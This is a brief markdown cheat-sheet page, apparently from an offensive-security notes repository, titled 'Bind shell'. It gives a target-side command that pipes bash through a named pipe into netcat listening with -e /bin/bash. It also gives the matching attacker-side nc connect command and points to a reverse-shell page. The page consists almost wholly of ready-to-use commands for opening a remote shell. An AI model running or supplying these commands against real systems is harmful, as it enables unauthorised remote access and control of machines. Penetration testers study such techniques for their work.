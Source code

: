 # Bind shell

On target:

```bash
/bin/bash 0< /tmp/l33t | nc -lvnp <PORT> -e /bin/bash 1> /tmp/l33t
```

On host:

```bash
nc <IP> <PORT>
```

See [reverse-shell](reverse-shell.md) for upgrading.